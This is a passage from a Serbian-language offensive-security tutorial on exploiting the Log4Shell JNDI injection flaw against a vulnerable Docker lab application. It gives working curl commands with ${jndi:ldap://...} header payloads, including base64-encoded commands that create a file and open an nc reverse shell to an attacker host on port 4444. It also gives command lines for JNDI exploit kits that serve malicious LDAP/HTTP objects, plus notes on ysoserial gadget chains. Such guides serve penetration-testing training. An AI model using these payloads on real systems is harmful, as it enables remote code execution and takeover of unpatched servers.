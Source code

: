 Dakle, u našem primeru, već imamo tu docker ranjivu aplikaciju koju pokrećemo. Da bismo je napali:

```bash
# Create a file inside of th vulnerable host:
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

# Get a reverse shell (only unix)
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/ReverseShell/172.17.0.1/4444}'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMSA0NDQ0IC1lIC9iaW4vc2gK}'
```

Kada pošaljete napade, videćete neki izlaz u terminalu gde ste izvršili **JNDIExploit-1.2-SNAPSHOT.jar**.

**Zapamtite da proverite `java -jar JNDIExploit-1.2-SNAPSHOT.jar -u` za druge opcije eksploatacije. Takođe, u slučaju potrebe, možete promeniti portove LDAP i HTTP servera.**

### RCE - JNDI-Exploit-Kit <a href="#rce__jndiexploitkit_33" id="rce__jndiexploitkit_33"></a>

Na sličan način kao i prethodni eksploit, možete pokušati da koristite [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) da iskoristite ovu ranjivost.\
Možete generisati URL-ove koje ćete poslati žrtvi pokretanjem:

```bash
# Get reverse shell in port 4444 (only unix)
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -S 172.17.0.1:4444

# Execute command
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -C "touch /tmp/log4shell"
```

_Napad korišćenjem prilagođenog generisanog Java objekta radiće u laboratorijama poput **THM solar room**. Međutim, ovo obično neće raditi (jer Java podrazumevano nije konfigurisana da učitava udaljene codebase-ove koristeći LDAP) mislim zato što ne zloupotrebljava pouzdanu klasu da izvrši proizvoljni kod._

### RCE - JNDI-Injection-Exploit-Plus

[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus) je još jedan alat za generisanje **upotrebljivih JNDI linkova** i pružanje pozadinskih usluga pokretanjem RMI servera, LDAP servera i HTTP servera.\\

### RCE - ysoserial & JNDI-Exploit-Kit

Ova opcija je zaista korisna za napade na **Java verzije konfigurisane da veruju samo određenim klasama, a ne svima**. Stoga će **ysoserial** biti korišćen za generisanje **serijalizacija pouzdanih klasa** koje mogu biti korišćene kao gedžeti za **izvršavanje proizvoljnog koda** (_pouzdana klasa zloupotrebljena od strane ysoserial-a mora biti korišćena od strane žrtvinog Java programa kako bi eksploatacija funkcionisala_).
